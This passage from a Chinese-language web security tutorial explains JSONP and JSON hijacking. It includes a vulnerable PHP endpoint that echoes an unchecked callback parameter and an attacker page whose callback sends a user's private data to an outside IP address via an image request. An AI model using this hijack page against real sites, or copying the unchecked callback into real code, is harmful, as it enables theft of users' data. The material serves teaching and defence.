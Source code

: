如果是post请求，则必须通过提交表单的方式（下文会有详细说明）。

另外，这些标签也可以用javascript动态生成，如：

```javascript
<script>
    new Image().src = 'http://www.goal.com/…';
</script>
```

### 2. JSON HiJacking攻击

JSONP（JSON with Padding）是一个非官方的协议，是Web前端的JavaScript跨域获取数据的一种方式。

JavaScript在读写数据时受到同源策略的限制，不可以读写其他域的数据，于是大家想出了这样一种办法：

**前端html代码**

```html
  1 <html>
  2     <meta content="text/html" charset="utf-8" http-equiv="Content-Type"/>
  3     <script type="text/javascript">
  4     ¦   function jsonpCallback(result){
  5     ¦   ¦   for(var i in result){
  6     ¦   ¦   ¦   alert(i + ":" + result[i]);
  7     ¦   ¦   }
  8     ¦   }
  9     </script>
 10     <script type="text/javascript" src="http://localhost:8001/csrf/jsonp.php?callback=jsonpCallback"></script>
 11 </html>
```

**后端php代码**

```php
  1 <?php
  2     $arr = array('a' => 1, 'b' => 2, 'c' => 3, 'd' => 4, 'e' => 5);
  3     $result = json_encode($arr);
  4     $callback = $_GET['callback'];
  5     echo $callback . "($result)";
  6 ?>
```

我们在前端定义了jsonpCallback函数来处理后端返回的JSON数据，然后利用script标签的src属性跨域获取数据，并且把刚才定义的回调函数的名称传递给了后端，于是后端构造出“jsonpCallback({“a”:1, “b”:2, “c”:3, “d”:4, “e”:5})”的函数调用过程返回到前端执行，达到了跨域获取数据的目的，前端页面成功实现弹框。

当用户通过身份认证之后，前端会通过JSONP的方式从服务端获取该用户的隐私数据，然后在前端进行一些处理，如个性化显示等等。这个JSONP的调用接口如果没有做相应的防护，就容易受到JSON HiJacking的攻击。

攻击者可以构造如下页面

```html
  1 <html>
  2     <meta content="text/html" charset="utf-8" http-equiv="Content-Type"/>
  3     <script type="text/javascript">
  4     ¦   function hijack(result){
  5     ¦   ¦   var data = "";
  6     ¦   ¦   for(var i in result){
  7     ¦   ¦   ¦   data += i + ":" + result[i];
  8     ¦   ¦   }
  9     ¦   ¦   new Image().src = "http://112.74.35.205/jsonhijacking.php?data=" + escape(data);
 10     ¦   }
 11     </script>
 12     <script type="text/javascript" src="http://localhost:8001/csrf/jsonp.php?callback=hijack"></script>
 13 </html>
```
